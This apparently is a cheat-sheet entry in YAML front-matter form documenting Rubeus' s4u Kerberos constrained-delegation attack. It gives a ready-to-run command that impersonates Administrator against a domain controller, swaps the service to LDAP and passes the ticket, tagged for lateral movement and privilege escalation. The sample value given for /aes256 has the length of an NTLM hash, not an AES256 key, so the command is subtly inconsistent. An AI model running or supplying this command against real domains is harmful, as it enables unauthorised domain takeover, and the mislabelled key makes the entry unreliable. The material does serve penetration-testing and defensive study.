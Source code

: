 
---
description: |
  Rubeus' `s4u` module performs Kerberos constrained delegation attacks using the S4U2Self and S4U2Proxy. This technique abuses accounts configured with delegation privileges (msDS-AllowedToDelegateTo) to impersonate any domain user and further alter the service specified since SPNs are stored in plaintext and thus access any service on the target system as any user

  Command Reference:

  	Domain: test.local

    SPN: time/dc.test.local

    alternative service: ldap(can chose any valid services such as HTTP for remoting access)

  	Username: john$

  	Hash: 2a3de7fe356ee524cc9f3d579f2e0aa7

command: |
  Rubeus.exe s4u /user:john$ /aes256:2a3de7fe356ee524cc9f3d579f2e0aa7 /impersonateuser:Administrator /msdsspn:time/dc.test.local /altservice:ldap /ptt
items:
  - Hash
  - Username
  - target
  - service
services:
  - Kerberos
OS:
  - Windows
attack_types:
  - Exploitation
  - Lateral Movement
  - Privilidge Escalation
references:
  - https://github.com/GhostPack/Rubeus
  - https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/steal-or-forge-kerberos-tickets/constrained-delegation
  - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation
---